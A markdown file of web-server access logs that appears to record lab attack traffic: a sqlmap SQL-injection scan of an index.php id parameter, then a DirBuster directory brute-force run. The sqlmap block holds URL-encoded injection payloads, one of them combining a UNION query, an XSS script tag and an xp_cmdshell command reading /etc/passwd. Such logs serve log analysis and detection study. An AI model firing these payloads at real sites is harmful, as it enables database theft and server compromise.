 # SQLmap web scan log
```bash
192.168.56.3 - - [05/Aug/2019:14:45:04 -0400] "GET /index.php?id=1 HTTP/1.1" 200 1201 "-" "sqlmap/1.3.7#stable (http://sqlmap.org)"
192.168.56.3 - - [05/Aug/2019:14:45:04 -0400] "GET /index.php?id=1&lPfi=4168%20AND%201%3D1%20UNION%20ALL%20SELECT%201%2CNULL%2C%27%3Cscript%3Ealert%28%22XSS%22%29%3C%2Fscript%3E%27%2Ctable_name%20FROM%20information_schema.tables%20WHERE%202%3E1--%2F%2A%2A%2F%3B%20EXEC%20xp_cmdshell%28%27cat%20..%2F..%2F..%2Fetc%2Fpasswd%27%29%23 HTTP/1.1" 200 1201 "-" "sqlmap/1.3.7#stable (http://sqlmap.org)"
192.168.56.3 - - [05/Aug/2019:14:45:04 -0400] "GET /index.php?id=1 HTTP/1.1" 200 1201 "-" "sqlmap/1.3.7#stable (http://sqlmap.org)"
192.168.56.3 - - [05/Aug/2019:14:45:04 -0400] "GET /index.php?id=9998 HTTP/1.1" 200 1201 "-" "sqlmap/1.3.7#stable (http://sqlmap.org)"
192.168.56.3 - - [05/Aug/2019:14:45:04 -0400] "GET /index.php?id=1.%28%22%28%29%29.%27.%2C HTTP/1.1" 200 1201 "-" "sqlmap/1.3.7#stable (http://sqlmap.org)"
192.168.56.3 - - [05/Aug/2019:14:45:05 -0400] "GET /index.php?id=1%27ZCFDIB%3C%27%22%3EcMHxnM HTTP/1.1" 200 1201 "-" "sqlmap/1.3.7#stable (http://sqlmap.org)"
192.168.56.3 - - [05/Aug/2019:14:45:05 -0400] "GET /index.php?id=1%29%20AND%209477%3D5844%20AND%20%283635%3D3635 HTTP/1.1" 200 1201 "-" "sqlmap/1.3.7#stable (http://sqlmap.org)"
192.168.56.3 - - [05/Aug/2019:14:45:05 -0400] "GET /index.php?id=1%20AND%204078%3D5995 HTTP/1.1" 200 1201 "-" "sqlmap/1.3.7#stable (http://sqlmap.org)"
192.168.56.3 - - [05/Aug/2019:14:45:05 -0400] "GET /index.php?id=1%20AND%209318%3D9644--%20BHCQ HTTP/1.1" 200 1201 "-" "sqlmap/1.3.7#stable (http://sqlmap.org)"
192.168.56.3 - - [05/Aug/2019:14:45:05 -0400] "GET /index.php?id=1%27%29%20AND%207118%3D6823%20AND%20%28%27wMek%27%3D%27wMek HTTP/1.1" 200 1201 "-" "sqlmap/1.3.7#stable (http://sqlmap.org)"
192.168.56.3 - - [05/Aug/2019:14:45:05 -0400] "GET /index.php?id=1%27%20AND%203078%3D2826%20AND%20%27msWB%27%3D%27msWB HTTP/1.1" 200 1201 "-" "sqlmap/1.3.7#stable (http://sqlmap.org)"
192.168.56.3 - - [05/Aug/2019:14:45:05 -0400] "GET /index.php?id=-4151 HTTP/1.1" 200 1201 "-" "sqlmap/1.3.7#stable (http://sqlmap.org)"
192.168.56.3 - - [05/Aug/2019:14:45:05 -0400] "GET /index.php?id=-8628%29%20OR%206606%3D6383%20AND%20%288717%3D8717 HTTP/1.1" 200 1201 "-" "sqlmap/1.3.7#stable (http://sqlmap.org)"
192.168.56.3 - - [05/Aug/2019:14:45:05 -0400] "GET /index.php?id=-9835%29%20OR%203423%3D3423%20AND%20%285501%3D5501 HTTP/1.1" 200 1201 "-" "sqlmap/1.3.7#stable (http://sqlmap.org)"
192.168.56.3 - - [05/Aug/2019:14:45:05 -0400] "GET /index.php?id=-1427%20OR%205770%3D6167 HTTP/1.1" 200 1201 "-" "sqlmap/1.3.7#stable (http://sqlmap.org)"
192.168.56.3 - - [05/Aug/2019:14:45:05 -0400] "GET /index.php?id=-9659%20OR%203423%3D3423 HTTP/1.1" 200 1201 "-" "sqlmap/1.3.7#stable (http://sqlmap.org)"
192.168.56.3 - - [05/Aug/2019:14:45:05 -0400] "GET /index.php?id=-5445%20OR%202069%3D1492--%20UARO HTTP/1.1" 200 1201 "-" "sqlmap/1.3.7#stable (http://sqlmap.org)"
192.168.56.3 - - [05/Aug/2019:14:45:05 -0400] "GET /index.php?id=-8186%20OR%203423%3D3423--%20lWli HTTP/1.1" 200 1201 "-" "sqlmap/1.3.7#stable (http://sqlmap.org)"
192.168.56.3 - - [05/Aug/2019:14:45:05 -0400] "GET /index.php?id=-4019%27%29%20OR%202466%3D1029%20AND%20%28%27MRmY%27%3D%27MRmY HTTP/1.1" 200 1201 "-" "sqlmap/1.3.7#stable (http://sqlmap.org)"
192.168.56.3 - - [05/Aug/2019:14:45:05 -0400] "GET /index.php?id=-5530%27%29%20OR%203423%3D3423%20AND%20%28%27GBQe%27%3D%27GBQe HTTP/1.1" 200 1201 "-" "sqlmap/1.3.7#stable (http://sqlmap.org)"
192.168.56.3 - - [05/Aug/2019:14:45:05 -0400] "GET /index.php?id=-6837%27%20OR%202804%3D3633%20AND%20%27jrhO%27%3D%27jrhO HTTP/1.1" 200 1201 "-" "sqlmap/1.3.7#stable (http://sqlmap.org)"
192.168.56.3 - - [05/Aug/2019:14:45:05 -0400] "GET /index.php?id=-1965%27%20OR%203423%3D3423%20AND%20%27dMAm%27%3D%27dMAm HTTP/1.1" 200 1201 "-" "sqlmap/1.3.7#stable (http://sqlmap.org)"
192.168.56.3 - - [05/Aug/2019:14:45:05 -0400] "GET /index.php?id=%28SELECT%20%28CASE%20WHEN%20%283153%3D2398%29%20THEN%201%20ELSE%20%28SELECT%202398%20UNION%20SELECT%208323%29%20END%29%29 HTTP/1.1" 200 1201 "-" "sqlmap/1.3.7#stable (http://sqlmap.org)"
192.168.56.3 - - [05/Aug/2019:14:45:05 -0400] "GET /index.php?id=1%29%20AND%20%28SELECT%209800%20FROM%28SELECT%20COUNT%28%2A%29%2CCONCAT%280x716a7a6271%2C%28SELECT%20%28ELT%289800%3D9800%2C1%29%29%29%2C0x7176767871%2CFLOOR%28RAND%280%29%2A2%29%29x%20FROM%20INFORMATION_SCHEMA.PLUGINS%20GROUP%20BY%20x%29a%29%20AND%20%285343%3D5343 HTTP/1.1" 200 1201 "-" "sqlmap/1.3.7#stable (http://sqlmap.org)"
192.168.56.3 - - [05/Aug/2019:14:45:05 -0400] "GET /index.php?id=1%20AND%20%28SELECT%209800%20FROM%28SELECT%20COUNT%28%2A%29%2CCONCAT%280x716a7a6271%2C%28SELECT%20%28ELT%289800%3D9800%2C1%29%29%29%2C0x7176767871%2CFLOOR%28RAND%280%29%2A2%29%29x%20FROM%20INFORMATION_SCHEMA.PLUGINS%20GROUP%20BY%20x%29a%29 HTTP/1.1" 200 1201 "-" "sqlmap/1.3.7#stable (http://sqlmap.org)"
192.168.56.3 - - [05/Aug/2019:14:45:05 -0400] "GET /index.php?id=1%20AND%20%28SELECT%209800%20FROM%28SELECT%20COUNT%28%2A%29%2CCONCAT%280x716a7a6271%2C%28SELECT%20%28ELT%289800%3D9800%2C1%29%29%29%2C0x7176767871%2CFLOOR%28RAND%280%29%2A2%29%29x%20FROM%20INFORMATION_SCHEMA.PLUGINS%20GROUP%20BY%20x%29a%29--%20Tulp HTTP/1.1" 200 1201 "-" "sqlmap/1.3.7#stable (http://sqlmap.org)"
192.168.56.3 - - [05/Aug/2019:14:45:05 -0400] "GET /index.php?id=1%27%29%20AND%20%28SELECT%209800%20FROM%28SELECT%20COUNT%28%2A%29%2CCONCAT%280x716a7a6271%2C%28SELECT%20%28ELT%289800%3D9800%2C1%29%29%29%2C0x7176767871%2CFLOOR%28RAND%280%29%2A2%29%29x%20FROM%20INFORMATION_SCHEMA.PLUGINS%20GROUP%20BY%20x%29a%29%20AND%20%28%27EmsB%27%3D%27EmsB HTTP/1.1" 200 1201 "-" "sqlmap/1.3.7#stable (http://sqlmap.org)"
192.168.56.3 - - [05/Aug/2019:14:45:05 -0400] "GET /index.php?id=1%27%20AND%20%28SELECT%209800%20FROM%28SELECT%20COUNT%28%2A%29%2CCONCAT%280x716a7a6271%2C%28SELECT%20%28ELT%289800%3D9800%2C1%29%29%29%2C0x7176767871%2CFLOOR%28RAND%280%29%2A2%29%29x%20FROM%20INFORMATION_SCHEMA.PLUGINS%20GROUP%20BY%20x%29a%29%20AND%20%27nubz%27%3D%27nubz HTTP/1.1" 200 1201 "-" "sqlmap/1.3.7#stable (http://sqlmap.org)
```
# Dirbuster web log scan
``bash
192.168.56.3 - - [05/Aug/2019:14:37:54 -0400] "HEAD /~uucp/ HTTP/1.1" 404 140 "-" "DirBuster-1.0-RC1 (http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project)"
192.168.56.3 - - [05/Aug/2019:14:37:54 -0400] "HEAD /~operator.key HTTP/1.1" 404 140 "-" "DirBuster-1.0-RC1 (http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project)"
192.168.56.3 - - [05/Aug/2019:14:37:54 -0400] "HEAD /~nscd.php HTTP/1.1" 404 140 "-" "DirBuster-1.0-RC1 (http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project)"
192.168.56.3 - - [05/Aug/2019:14:37:54 -0400] "HEAD /~games.txt HTTP/1.1" 404 140 "-" "DirBuster-1.0-RC1 (http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project)"
192.168.56.3 - - [05/Aug/2019:14:37:54 -0400] "HEAD /~operator/ HTTP/1.1" 404 140 "-" "DirBuster-1.0-RC1 (http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project)"
192.168.56.3 - - [05/Aug/2019:14:37:54 -0400] "HEAD /~games.key HTTP/1.1" 404 140 "-" "DirBuster-1.0-RC1 (http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project)"
192.168.56.3 - - [05/Aug/2019:14:37:54 -0400] "HEAD /~mailnull.php HTTP/1.1" 404 140 "-" "DirBuster-1.0-RC1 (http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project)"
192.168.56.3 - - [05/Aug/2019:14:37:54 -0400] "HEAD /icons/~root/ HTTP/1.1" 404 140 "-" "DirBuster-1.0-RC1 (http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project)"
192.168.56.3 - - [05/Aug/2019:14:37:54 -0400] "HEAD /icons/~root.key HTTP/1.1" 404 140 "-" "DirBuster-1.0-RC1 (http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project)"
192.168.56.3 - - [05/Aug/2019:14:37:54 -0400] "HEAD /icons/~root.php HTTP/1.1" 404 140 "-" "DirBuster-1.0-RC1 (http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project)"
192.168.56.3 - - [05/Aug/2019:14:37:54 -0400] "HEAD /~gopher.txt HTTP/1.1" 404 140 "-" "DirBuster-1.0-RC1 (http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project)"
192.168.56.3 - - [05/Aug/2019:14:37:54 -0400] "HEAD /icons/~root.txt HTTP/1.1" 404 140 "-" "DirBuster-1.0-RC1 (http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project)"
192.168.56.3 - - [05/Aug/2019:14:37:54 -0400] "HEAD /~games/ HTTP/1.1" 404 140 "-" "DirBuster-1.0-RC1 (http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project)"
192.168.56.3 - - [05/Aug/2019:14:37:54 -0400] "HEAD /~gopher.key HTTP/1.1" 404 140 "-" "DirBuster-1.0-RC1 (http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project)"
192.168.56.3 - - [05/Aug/2019:14:37:54 -0400] "HEAD /~ident.php HTTP/1.1" 404 140 "-" "DirBuster-1.0-RC1 (http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project)"
192.168.56.3 - - [05/Aug/2019:14:37:54 -0400] "HEAD /icons/~toor/ HTTP/1.1" 404 140 "-" "DirBuster-1.0-RC1 (http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project)"
192.168.56.3 - - [05/Aug/2019:14:37:54 -0400] "HEAD /icons/~toor.key HTTP/1.1" 404 140 "-" "DirBuster-1.0-RC1 (http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project)"
192.168.56.3 - - [05/Aug/2019:14:37:54 -0400] "HEAD /icons/~toor.php HTTP/1.1" 404 140 "-" "DirBuster-1.0-RC1 (http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project)"
192.168.56.3 - - [05/Aug/2019:14:37:54 -0400] "HEAD /~ftp.txt HTTP/1.1" 404 140 "-" "DirBuster-1.0-RC1 (http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project)"
192.168.56.3 - - [05/Aug/2019:14:37:54 -0400] "HEAD /icons/~toor.txt HTTP/1.1" 404 140 "-" "DirBuster-1.0-RC1 (http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project)"
192.168.56.3 - - [05/Aug/2019:14:37:54 -0400] "HEAD /~gopher/ HTTP/1.1" 404 140 "-" "DirBuster-1.0-RC1 (http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project)"
192.168.56.3 - - [05/Aug/2019:14:37:55 -0400] "HEAD /~ftp.key HTTP/1.1" 404 140 "-" "DirBuster-1.0-RC1 (http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project)"
192.168.56.3 - - [05/Aug/2019:14:37:55 -0400] "HEAD /~rpc.php HTTP/1.1" 404 140 "-" "DirBuster-1.0-RC1 (http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project)"
192.168.56.3 - - [05/Aug/2019:14:37:55 -0400] "HEAD /icons/~bin/ HTTP/1.1" 404 140 "-" "DirBuster-1.0-RC1 (http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project)"
192.168.56.3 - - [05/Aug/2019:14:37:55 -0400] "HEAD /icons/~bin.key HTTP/1.1" 404 140 "-" "DirBuster-1.0-RC1 (http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project)"
192.168.56.3 - - [05/Aug/2019:14:37:55 -0400] "HEAD /icons/~bin.php HTTP/1.1" 404 140 "-" "DirBuster-1.0-RC1 (http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project)"
192.168.56.3 - - [05/Aug/2019:14:37:55 -0400] "HEAD /~nobody.txt HTTP/1.1" 404 140 "-" "DirBuster-1.0-RC1 (http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project)"
192.168.56.3 - - [05/Aug/2019:14:37:55 -0400] "HEAD /icons/~bin.txt HTTP/1.1" 404 140 "-" "DirBuster-1.0-RC1 (http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project)"
192.168.56.3 - - [05/Aug/2019:14:37:55 -0400] "HEAD /~ftp/ HTTP/1.1" 404 140 "-" "DirBuster-1.0-RC1 (http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project)"
192.168.56.3 - - [05/Aug/2019:14:37:55 -0400] "HEAD /~nobody.key HTTP/1.1" 404 140 "-" "DirBuster-1.0-RC1 (http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project)"
192.168.56.3 - - [05/Aug/2019:14:37:55 -0400] "HEAD /~rpcuser.php HTTP/1.1" 404 140 "-" "DirBuster-1.0-RC1 (http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project)"
192.168.56.3 - - [05/Aug/2019:14:37:55 -0400] "HEAD /icons/~daemon/ HTTP/1.1" 404 140 "-" "DirBuster-1.0-RC1 (http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project)"
192.168.56.3 - - [05/Aug/2019:14:37:55 -0400] "HEAD /icons/~daemon.key HTTP/1.1" 404 140 "-" "DirBuster-1.0-RC1 (http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project)"
192.168.56.3 - - [05/Aug/2019:14:37:55 -0400] "HEAD /icons/~daemon.php HTTP/1.1" 404 140 "-" "DirBuster-1.0-RC1 (http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project)"
192.168.56.3 - - [05/Aug/2019:14:37:55 -0400] "HEAD /~nscd.txt HTTP/1.1" 404 140 "-" "DirBuster-1.0-RC1 (http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project)"
192.168.56.3 - - [05/Aug/2019:14:37:55 -0400] "HEAD /icons/~daemon.txt HTTP/1.1" 404 140 "-" "DirBuster-1.0-RC1 (http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project)"
192.168.56.3 - - [05/Aug/2019:14:37:55 -0400] "HEAD /~nobody/ HTTP/1.1" 404 140 "-" "DirBuster-1.0-RC1 (http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project)"
192.168.56.3 - - [05/Aug/2019:14:37:55 -0400] "HEAD /~nscd.key HTTP/1.1" 404 140 "-" "DirBuster-1.0-RC1 (http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project)"
192.168.56.3 - - [05/Aug/2019:14:37:55 -0400] "HEAD /~xfs.php HTTP/1.1" 404 140 "-" "DirBuster-1.0-RC1 (http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project)"
192.168.56.3 - - [05/Aug/2019:14:37:55 -0400] "HEAD /icons/~adm/ HTTP/1.1" 404 140 "-" "DirBuster-1.0-RC1 (http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project)"
192.168.56.3 - - [05/Aug/2019:14:37:55 -0400] "HEAD /icons/~adm.key HTTP/1.1" 404 140 "-" "DirBuster-1.0-RC1 (http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project)"
192.168.56.3 - - [05/Aug/2019:14:37:55 -0400] "HEAD /icons/~adm.php HTTP/1.1" 404 140 "-" "DirBuster-1.0-RC1 (http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project)"
192.168.56.3 - - [05/Aug/2019:14:37:55 -0400] "HEAD /~mailnull.txt HTTP/1.1" 404 140 "-" "DirBuster-1.0-RC1 (http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project)"
192.168.56.3 - - [05/Aug/2019:14:37:55 -0400] "HEAD /icons/~adm.txt HTTP/1.1" 404 140 "-" "DirBuster-1.0-RC1 (http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project)"
192.168.56.3 - - [05/Aug/2019:14:37:55 -0400] "HEAD /~nscd/ HTTP/1.1" 404 140 "-" "DirBuster-1.0-RC1 (http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project)"
192.168.56.3 - - [05/Aug/2019:14:37:55 -0400] "HEAD /~mailnull.key HTTP/1.1" 404 140 "-" "DirBuster-1.0-RC1 (http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project)
```
